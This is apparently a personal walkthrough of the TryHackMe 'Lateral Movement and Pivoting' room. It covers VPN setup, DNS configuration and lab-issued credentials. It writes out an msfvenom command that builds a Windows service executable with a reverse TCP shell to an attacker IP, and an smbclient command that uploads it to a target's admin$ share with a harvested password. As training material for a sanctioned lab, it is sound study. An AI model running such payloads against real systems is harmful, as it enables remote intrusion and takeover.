 ```yaml
---

title: Lateral Movement and Pivoting
published: true
category: Lessons
system: Windows
walkthrough-type: thm
source: https://tryhackme.com/room/lateralmovementandpivoting
Description: Common techniques used to move laterally across a Windows network.
---
```


* * * 

# Introduction

Connecting via VPN. 

- `sudo openvpn --config ~/Downloads/62836ffc2c1677004856943b-lateralmovementandpivoting.ovpn --daemon`

Edit DNS Config `/etc/resolv.conf`

```
# Generated by NetworkManager
# search hitronhub.home
# nameserver 192.168.0.1

# Added
search cyber.range za.tryhackme.com
nameserver 10.200.51.101 
nameserver 10.0.0.1
# Shorten name resolution timeouts to 1 second
options timeout:1
# Only attempt to resolve a hostname 2 times
options attempts:2
```

Get creds so we can ssh in

Your credentials have been generated: Username: arthur.campbell Password: Pksp9395

- `ssh za\\arthur.campbell@thmjmp2.za.tryhackme.com`

We also have the following information to complete the exercise:

```
User: ZA.TRYHACKME.COM\t1_leonard.summers
Password: EZpass4ever
```

Instructed to create a service payload to upload.

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.50.49.50 LPORT=8945 -f exe-service -o 0xskar-service.exe`

And upload the service to the smb admin share

- `smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever`




